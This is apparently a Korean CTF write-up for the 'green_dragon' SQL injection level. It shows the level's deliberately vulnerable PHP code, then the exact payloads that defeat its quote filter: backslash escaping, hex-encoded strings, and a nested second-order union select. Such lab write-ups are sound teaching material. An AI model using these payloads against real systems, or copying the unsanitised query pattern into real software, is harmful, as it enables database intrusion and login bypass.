 # green_dragon

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

## 2. Condition
- 1차적으로 get 파라미터 `id`와 `pw`의 값을 받고 쿼리를 보낸다.('query :')   
- 2차적으로 위에서 나온 결과의 `id`와 `pw`를 다시 쿼리로 보낸다.('query2 :')   
- 두 과정에서 모두 `prob _ . ' "`를 필터링한다.   
- 최종적으로 마지막 쿼리의 결과가 `admin`이라면 문제가 해결된다.   

## 3. Solution
위 에서 말했듯이, 두 부분으로 나누어 생각해야 한다.   
최종단계 부터 거꾸로 거슬러 올라가면 쉽게 해결된다.   


1. 쿼리의 결과 `id`값이 `admin`이어야 한다   
>    `' "`가 필터링 되므로, `\`문자를 통해 이스케이핑 시키는 방법을 이용한다.   
    그리고 문자 'admin'은 hex값을 통해 우회하였다.

변수명 | 값
---|---
`id` | \
`pw` | union select `0x61646d696e`


다음 단계로 넘어가보자.   

2. 쿼리의 결과 `id`값이 `\`, `pw`값이 `union select 0x61646d696e`이어야 한다.   
>    마찬가지로, `\`를 이용한 이스케이핑을 한다.   
    1번 과정에서 필요한 값과 구문들을 모두 hex값으 변환하여 보내었다.   

    `\` > 0x5c
    `  union select 0x61646d696e#` > 0x20756e696f6e2073656c6563742030783631363436643639366523    

변수명 | 값
---|---
`id` | \
`pw` | %20union%20select%20`0x5c`,`0x20756e696f6e2073656c6563742030783631363436643639366523`%23


성공적으로 문제가 해결된다.